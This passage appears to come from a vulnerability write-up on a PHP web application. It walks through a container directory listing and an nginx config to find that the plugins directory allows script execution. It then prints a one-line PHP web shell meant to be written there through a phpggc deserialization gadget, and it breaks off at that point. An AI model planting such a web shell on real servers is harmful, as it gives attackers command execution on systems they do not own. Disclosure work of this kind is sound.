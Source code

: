 ```
088f12e8a701:/var/www/app# ls -al
total 92
drwxr-xr-x    1 root     root          4096 Jun 22 21:26 .
drwxr-xr-x    1 root     root          4096 Jun 22 21:26 ..
drwxr-xr-x    2 root     root          4096 Jun 22 21:26 .devcontainer
-rw-r--r--    1 root     root          1080 Jun 22 21:26 LICENSE
drwxr-xr-x    1 root     root          4096 Jun 22 21:26 app
drwxr-xr-x    6 root     root          4096 Jun 22 21:26 assets
-rwxr-xr-x    1 root     root           582 Jun 22 21:26 cli
-rw-r--r--    1 root     root         10173 Jun 22 21:26 config.default.php
-rw-r--r--    1 root     root           133 Jun 22 21:26 config.php
drwxr-xr-x    2 nginx    nginx         4096 Aug 13 07:13 data
-rw-r--r--    1 root     root         13094 Jun 22 21:26 favicon.ico
-rw-r--r--    1 root     root           587 Jun 22 21:26 healthcheck.php
-rw-r--r--    1 root     root           309 Jun 22 21:26 index.php
-rw-r--r--    1 root     root            78 Jun 22 21:26 jsonrpc.php
drwxr-xr-x   14 root     root          4096 Jun 22 21:26 libs
drwxr-xr-x    2 nginx    nginx         4096 Jun 22 21:26 plugins
-rw-r--r--    1 root     root            25 Jun 22 21:26 robots.txt
drwxr-xr-x    7 root     root          4096 Jun 22 21:26 vendor
```

Looking at the `/etc/nginx/nginx.conf`, 

```
location ~ \.php$ {
    try_files $uri =404;
    fastcgi_split_path_info ^(.+\.php)(/.+)$;
    fastcgi_pass unix:/var/run/php-fpm.sock;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    fastcgi_index index.php;
    include fastcgi_params;
    fastcgi_param SERVER_NAME $host;
    fastcgi_param HTTP_X_REAL_IP $remote_addr;
    fastcgi_param HTTP_X_FORWARDED_FOR $proxy_add_x_forwarded_for;
}

location ~ /data {
    return 404;
}
```

we can see that the `/data` directory forbids any execution (likely to stop user file uploads from executing). But lucky for us, we still have the `/plugins` directory which allows for full php script execution!

Given this info, I decided the point of attack would be to write a simple php reverse shell file into `/var/www/app/plugins/test.php`.

```php
<?php system($_GET['x']); ?>
```

To accomplish this, an attacker can generate a gadget using the `phpggc` method from earlier
